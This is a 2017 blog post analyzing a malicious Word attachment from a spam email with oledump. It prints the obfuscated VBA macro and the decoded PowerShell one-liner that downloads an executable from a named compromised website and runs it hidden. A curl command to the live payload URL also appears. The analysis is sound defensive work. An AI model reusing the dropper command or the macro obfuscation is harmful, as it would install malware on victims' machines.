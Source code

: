 ```yaml
---
layout: post
title:  "Analyzing maldocs with oledump"
date:   2017-01-29 07:00:00
comments: true
categories: reversing security malware macros
---
```



I always worked for the red team but as I was going through my spam folder this morning I decided I'd give a try at analyzing malicious attachments. I also secretly always wanted to check out Didier Stevens' [oledump](https://blog.didierstevens.com/programs/oledump-py/) tool so this was a good excuse :)

#### E-mail

The mail looked like this:

{% highlight text %}
Date: Fri, 27 Jan 2017 12:26:06 +0100
From: Mihail <hunter@puppetlabs.com>
To: contact@quentinkaiser.be
Subject: question
Reply-To: Mihail <AdamBuchbinder@tutanota.com>
X-Mailer: Microsoft Windows Live Mail 14.0.8117.416
Message-ID: <1CE6AE0E2AFED033EFEAA3140087FFB0@sh>

Hey. I found your software is online. Can you write the code for my project?
Terms of reference attached below.
The price shall discuss, if you can make. Answer please.
{% endhighlight %}

The attachment is a file named *New.gz* allegedly containing the "Terms of reference" Mihail is talking about.

#### Malicious attachment fingerprinting

So let's dive in ! I launched a VM and ran some basic checks on the file. binwalk tells us that the file is actually a RAR archive, even though the extension says *.gz*

{% highlight sh %}
$ binwalk New.gz 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             RAR archive data, first volume type: MAIN_HEAD
{% endhighlight %}

The archive contains a document named *New.doc*, apparently a Microsoft Office document:

{% highlight sh %}
$ file New.doc 
New.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.1, Code page: 1251, Template: Normal, Last Saved By: Normal, Revision Number: 2, Name of Creating Application: Microsoft Office Word, Create Time/Date: Fri Jan 27 05:14:00 2017, Last Saved Time/Date: Fri Jan 27 05:14:00 2017, Number of Pages: 1, Number of Words: 0, Number of Characters: 5, Security: 0
{% endhighlight %}

#### Malicious attachment analysis

I can finally try oledump !

{% highlight sh %}
$ python oledump.py -i New.doc
1:       114 '\x01CompObj'
2:      4096 '\x05DocumentSummaryInformation'
3:      4096 '\x05SummaryInformation'
4:     11555 '1Table'
5:       367 'Macros/PROJECT'
6:        41 'Macros/PROJECTwm'
7: M   84985 'Macros/VBA/ThisDocument'
8:     16765 'Macros/VBA/_VBA_PROJECT'
9:       517 'Macros/VBA/dir'
10:       216 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Item'
11:       341 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Properties'
12:     15974 'WordDocument'
{% endhighlight %}

We can see that there is a VBA macro on stream 7, let's extract it with oledump:

{% highlight sh %}
$ python oledump.py -s 7 -v New.doc > payload.vba
{% endhighlight %}

The VBA payload contains a shit load of "obfuscated" code but we can find the interesting part by pinpointing where the call to `Shell` happens. We can see in the excerpt below that the argument provided to `Shell` is a concatenation of the `sraqteby` array elements. Yes, there are some array indexing bullshit. I doubt this ever made reversing difficult :D

{% highlight vbnet %}
sraqteby = Array("CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E",
"b^", "cL", "i^", "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE", "'""")

ozqaqzusw = Array("odevzu", "qvonwav", "ohizef", "decaqo", "azxut", Join(sraqteby, ""), "irtubgu")(5)


eratcyke = ucbejja & ubep & ogyl
zema2 = rbipole & scivikwo & ynehsoc & qhyxob
vnilden3 = ejveme & omvyrzi & ezeln & nrezi
uhysylhi = ycijt & yzowr & olec
orybm5 = uzsygip & uhyhges & rmyle
mufqim = wnisofmo & nukag
ywgodyr = Array(mufqim, orybm5, uhysylhi, vnilden3, zema2, Shell(Array(ozqaqzusw)(0), 0), eratcyke)(5)
{% endhighlight %}

I opened a Python interpreter and executed the code below to get the argument provided to `Shell`:

{% highlight python %}
a = ["CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E", "b^", "cL", "i^",
 "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE"]

print  "".join(a).replace("^", "")
{% endhighlight %}

Which gave me the following one-liner that downloads an executable with PowerShell and executes it (URL escapes are mine):

{% highlight text %}
"CMD.exe /C poWeRsHElL.EXe     -eXECUTIonPoLICy bypAss    -NOprOFile -winDowSTyLE    hIDden   (neW-ObjeCT    sySteM.NET.WEbcLiEnT).dOWNloadFIlE('http://nicklovegrove[.]co[.]uk/wp-content/margin2601_onechat_word.exe','%APPdAta%.Exe');sTArT-pROCEsS '%APpdaTa%.ExE"
{% endhighlight %}

Let's hash it !

{% highlight sh %}
$ curl http://nicklovegrove.co.uk/wp-content/margin2601_onechat_word.exe | sha1sum
0df45a365e2135531b0beba8e50d0453eee70047
{% endhighlight %}

Submitting the hash to [VirusTotal](https://www.virustotal.com/en/file/3f73b09d9cdd100929061d8590ef0bc01b47999f47fa024f57c28dcd660e7c22/analysis), we can see it's already detected as a Trojan by some AV. Some analyst provided the download URL in comments.


That's all for now, I'm not good enough at reversing Windows executables to go further :)

